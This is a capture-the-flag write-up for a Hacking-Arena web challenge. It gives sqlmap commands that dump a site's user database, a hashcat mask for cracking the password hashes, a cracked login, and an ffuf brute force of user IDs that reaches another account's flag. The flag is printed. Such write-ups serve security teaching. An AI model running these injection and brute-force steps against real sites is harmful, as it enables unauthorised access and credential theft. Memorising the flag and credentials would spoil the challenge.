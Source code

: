 # Flag

> Hacking-Arena{Oh_don't_you_please_take_me_home}

# Prompt

> I need to login to look after what my koala bears are doing. I forgot the password, holy cow(la)!

[http://koala.hackingarena.no:802](http://koala.hackingarena.no:802/) [http://koala.hackingarena.com:802](http://koala.hackingarena.com:802/) (same site)

I think you can get it as well as the flag. Need a little patience, cracking might take 20 minutes (if you know what to crack :) )

# Solution

Utilize SQLMAP to exploit the HTTP Get form and retrieve databases

GET http://koala.hackingarena.com:802/index.php?song=Banana boat song

Command:
sqlmap -u "http://koala.hackingarena.com:802/index.php" --forms -dbs

![[Pasted image 20241115183959.png]]

Next exploit is for retrieving tables from database 'user' using command:
sqlmap -u "http://koala.hackingarena.com:802/index.php" --forms -D user --tables  

![[Pasted image 20241115184128.png]]

Lastly for sqlmap, output content from table users to retrieve password and usernames.

![[Pasted image 20241115184226.png]]

From here on, go back to the website and inspect the source code for the instructions to creating passwords. Use the structure and crack the hash(es) using hash-cat with following structure:

Lowercase - ?l
Uppercase - ?u
Digits - ?d
Minimum length of 6 - --increment-min 6 & -i ?1?1?1?1?1?1?1?1?1?1?1?1 (6-12 length)

![[Pasted image 20241115184444.png]]

Next step is to log into the website with login information:
Name=yellowfish
Password=32uSOp

![[Pasted image 20241115184734.png]]

Use burp suite to find the cookieId and use ffuf to bruteforce userIds from 1 to 10000 (filter out size = 29):

ffuf -u http://koala.hackingarena.no:802/profile.php?userid=FUZZ -H "Cookie: CalypId=AAABBBCCCDDD1731694671" -w "/home/kali/Desktop/userid.txt" -fs 29

![[Pasted image 20241115184929.png]]

Lastly, manually change the userId in the url of a web-browser to 7622 (Largest size) and retrieve the flag.
# Additional Info

Additional solution / info